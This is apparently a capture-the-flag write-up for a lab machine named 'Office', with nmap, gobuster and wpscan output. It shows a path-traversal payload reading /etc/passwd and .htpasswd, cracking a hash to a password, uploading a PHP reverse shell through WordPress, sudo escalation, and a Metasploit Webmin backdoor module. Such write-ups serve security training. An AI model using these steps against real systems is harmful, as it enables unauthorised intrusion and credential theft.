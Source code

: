 ```yaml
---
tags: [Challenge, Linux, Video]
title: Office
created: '2020-05-26T12:25:46.534Z'
modified: '2020-10-02T17:40:21.502Z'
---
```


# Office
- IP: `172.31.3.1`
- OS: `Linux`
## General
### Usernames
- dwight (Author on port 80)
- jim (To be fired)
- meredith ([forum](https://office.csl/forum/))
- creed ([forum](https://office.csl/forum/))
- andy ([forum](https://office.csl/forum/))
- phyllis ([forum](https://office.csl/forum/))
- oscar ([forum](https://office.csl/forum/))
- kevin ([forum](https://office.csl/forum/))
- angela ([forum](https://office.csl/forum/))
### Credentials
- dwight:cowboys1
## Enumeration
### Writeup
We see that both port 80 and 443 are open. Taking a look at those, we notice that port 443 just has the default apache page

`WordPress 5.4.1` runs on port 80

We find the forum on port 443 and on the [login](https://office.csl/forum/login/login.php) page, it says `Login is done via User-Agent to access the forum.`

However, when looking at the chatlogs, we saw a `?file` GET parameter. By inputting `../../../../../../../../etc/passwd`, we can get LFI

Using this LFI, we can get access to [`.htpasswd`](https://office.csl/forum/chatlogs/chatlogs.php?file=../../../../../../../../var/www/html/forum/.htpasswd), which contains `dwight:$apr1$7FARE4DE$lKgF/R9rSUEY6s.L79/dM/ `, which we can crack to `cowboys1`

We can use these credentials to log into [wordpress](http://office.csl/wp-admin/)

In the file manager, we create a php file and upload `/usr/share/webshells/php/php-reverse-shell.php`
### Commands
#### NMap
`nmap -p 1-65535 -T4 -A -v 172.31.3.1`
<details>
<markdown>
```bash
PORT      STATE    SERVICE          VERSION
22/tcp    open     ssh              OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e2:3f:6c:4e:6d:8b:dc:59:b7:cb:66:64:27:f9:22:86 (RSA)
|   256 ee:be:37:f3:75:4e:38:2a:a9:99:e0:18:1a:b8:d1:41 (ECDSA)
|_  256 7f:72:a7:29:be:30:9e:5e:aa:b9:fc:be:09:d2:8b:3a (ED25519)
80/tcp    open     http             Apache httpd 2.4.29 ((Ubuntu))
|_http-generator: WordPress 5.4.1
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Dunder Mifflin &#8211; Just another WordPress site
443/tcp   open     ssl/http         Apache httpd 2.4.29 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
| ssl-cert: Subject: commonName=office.csl/organizationName=Dunder Mifflin/stateOrProvinceName=PA/countryName=US
| Issuer: commonName=office.csl/organizationName=Dunder Mifflin/stateOrProvinceName=PA/countryName=US
| Public Key type: rsa
| Public Key bits: 4096
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2020-05-08T20:01:51
| Not valid after:  2021-05-08T20:01:51
| MD5:   e159 faf3 e637 25ad 7d95 3210 9a69 bce6
|_SHA-1: adee e6e5 1566 a86f c8d9 6d7e 1fc0 2239 e21e 92ef
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
10000/tcp filtered snet-sensor-mgmt
32195/tcp filtered unknown
```
</markdown>
</details>
<markdown>
#### GoBuster
- 80
  - `gobuster dir --wordlist /usr/share/wordlists/dirb/big.txt --url http://office.csl/ -x html,js,txt -o commands/gobuster-80-root`
```bash
/license.txt (Status: 200)
/readme.html (Status: 200)
/server-status (Status: 403)
/wp-admin (Status: 301)
  /css (Status: 301)
  /images (Status: 301)
  /includes (Status: 301)
  /js (Status: 301)
  /maint (Status: 301)
  /network (Status: 301)
  /user (Status: 301)
/wp-content (Status: 301)
/wp-includes (Status: 301)
```
- 443
  - `gobuster dir -k --wordlist /usr/share/wordlists/dirb/big.txt --url https://office.csl/ -x php,txt -o commands/gobuster-443-root`
```bash
/forum (Status: 301)
  /css (Status: 301)
  /images (Status: 301)
  /index.php (Status: 200)
  /login (Status: 301)
/server-status (Status: 403)
/wordpress (Status: 301)
```
#### WPScan
`wpscan --url http://office.csl/`
</markdown>
<details>
<markdown>
```bash
Interesting Finding(s):

[+] Headers
 | Interesting Entry: Server: Apache/2.4.29 (Ubuntu)
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: http://office.csl/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access

[+] http://office.csl/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] The external WP-Cron seems to be enabled: http://office.csl/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 5.4.1 identified (Latest, released on 2020-04-29).
 | Found By: Rss Generator (Passive Detection)
 |  - http://office.csl/?feed=rss2, <generator>https://wordpress.org/?v=5.4.1</generator>
 |  - http://office.csl/?feed=comments-rss2, <generator>https://wordpress.org/?v=5.4.1</generator>

[+] WordPress theme in use: twentytwenty
 | Location: http://office.csl/wp-content/themes/twentytwenty/
 | Last Updated: 2020-05-14T00:00:00.000Z
 | Readme: http://office.csl/wp-content/themes/twentytwenty/readme.txt
 | [!] The version is out of date, the latest version is 1.3
 | Style URL: http://office.csl/wp-content/themes/twentytwenty/style.css?ver=1.2
 | Style Name: Twenty Twenty
 | Style URI: https://wordpress.org/themes/twentytwenty/
 | Description: Our default theme for 2020 is designed to take full advantage of the flexibility of the block editor...
 | Author: the WordPress team
 | Author URI: https://wordpress.org/
 |
 | Found By: Css Style In Homepage (Passive Detection)
 |
 | Version: 1.2 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://office.csl/wp-content/themes/twentytwenty/style.css?ver=1.2, Match: 'Version: 1.2'

[+] Enumerating All Plugins (via Passive Methods)

[i] No plugins Found.

[+] Enumerating Config Backups (via Passive and Aggressive Methods)
 Checking Config Backups - Time: 00:00:00 <=========================================> (21 / 21) 100.00% Time: 00:00:00

[i] No Config Backups Found.
```
</markdown>
</details>
<markdown>
#### John
`john --wordlist=/usr/share/wordlists/rockyou.txt dwight-htpasswd-hash`


## Enumeration as www-data
### Writeup
`sudo -l` shows us we can `(dwight) NOPASSWD: /bin/bash`
### Commands
`sudo -u dwight /bin/bash`


## Enumeration as dwight
### Writeup
When we curl the port 10000, which was filtered earlier, we get a webpage, let's try to forward that with ssh (~C) `-L10000:localhost:10000` and we see webmin is running here.

Exploit webmin using: `linux/http/webmin_backdoor` in msf


### Commands
</markdown>
